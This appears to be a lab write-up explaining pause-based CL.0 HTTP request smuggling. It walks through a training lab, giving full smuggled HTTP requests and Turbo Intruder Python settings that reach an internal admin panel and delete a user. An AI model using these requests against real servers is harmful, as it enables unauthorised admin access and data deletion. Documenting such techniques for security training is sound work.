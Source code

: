 There are many quite secure websites that can contain hidden desync vulnerabilities that can be revealed if you pause mid-request.

Servers usually are configured with a read timeout, and if they don't receive any more data for an amount of time, they treat the request as complete and issue a response. This regardless of how many bytes they were told to expect.

Pause based desync vulnerabilities can occur when a server times out a request but leaves the connection open for reuse.

## Server-side pause-based desync

It is dependent on some conditions:
- Frontend must immediately forward each byte of the request to the backend rather than waiting until it has received the full request.
- Frontend must not time out requests before the backend.
- Backend must leave the connection open for reuse following a read timeout.

### Example

Let's consider a CL.0 request smuggling attack scenario:

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

Now, what happens if we send the headers, but pause before sending the body?

- Frontend forwards the headers to the backend, and waits for the remaining bytes.
- After some time, backend times out and sends a response, and now the frontend may or may not read this response and forward to us.
- We send the body, which has a request smuggling prefix.
- Frontend treats this as a continuation of the initial request and forwards this to the backend down the same connection.
- Backend has responded to the initial request, so now thinks that these bytes are another request.

### Testing for pause based CL.0

In Repeater, create a CL.0 request smuggling probe like the one above, send it to `Turbo Intruder`.

In `Turbo Intruder`'s Python editor, adjust the request engine configuration to the following options:

```text
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```

Queue the request and add the following arguments to the `queue()` interface:

`pauseMarker` - A list of strings after which you want to pause.
`pauseTime` - pause in ms.

Queue an arbitrary follow-up request as normal:

`followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n' engine.queue(followUp)`

Be sure that you are logging all the responses:

```python
def handleResponse(req, interesting):
    table.add(req)
```

# Exploiting pause-based desync attacks

The frontend streamas requests to the backend, and the backend doesn't close hte connection after a timeout on some endpoints.

The goal is to identify a pause-based CL.0 desync vector, smuggle a request to the admin at `/admin` and delete the user `carlos`.

Find an on-site redirect, and in our case is `lab.com/resources` which redirects to `lab.com/resources/`

Install `Turbo Intruder` extension, and send his request to the Turbo Intruder.

Change the request to `POST` and add a smuggled request like in CL.0, that tries to access `/admin/`. Also don't forget to add `Connection: keep-alive`.

```http
POST /resources HTTP/1.1
Host: lab.net
Cookie: session =...
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin/ HTTP/1.1
Host: lab.net
```

And modify the `Python` code part as follows:

```Python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```


In the first request we got a `302` and in the second there is a `401 Unauthorized` and `Admin interface only available to local users`.

In this case let's put `localhost` in the Host of the smuggled request.

And we're inside the admin panel, where it asks us for a username and there is a button to `Delete user`:

![](Pasted_image_20250120145134.png)

But for that our smuggled request needs to be a `POST` and not a `GET`. In the `HTML` that was returned we got a lot of information such as `csrf, action`.

Now let's edit our smuggled request:

```http
POST /resources HTTP/1.1
Host: 0a4b00750429868981989d94007c001a.web-security-academy.net
Cookie: session=FpdxixgCl7dcLByFAvM9TGGuxbqjCn2q
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 171

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

csrf=KnKcB6Gamprqao6cSwbz2MzUMQ3CTpvq&username=carlos
```

Very important is the `Content-Length` as you need to calculate for both the body of the smuggled request which in this case is 53, and the complete body of the first request which is 171.

Then in the Python code, change the `pauseMarker`:

```python
...
engine.queue(target.req, pauseMarker=['Content-Length: 171\r\n\r\n'], pauseTime=61000)
...
```

This, because if we leave as before with `\r\n\r\n` then it will pause two times, and we have to differentiate between them.

Now send it, and the response to the second request is:

```http
HTTP/1.1 302 Found
Location: /
Set-Cookie: session=cQBLRASV9VznhaGMEnCibhhjLfieb8CL; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Server: Apache/2.4.52
Keep-Alive: timeout=120
Content-Length: 0
```

Meaning that the user `carlos` has been deleted, and the lab has been solved.
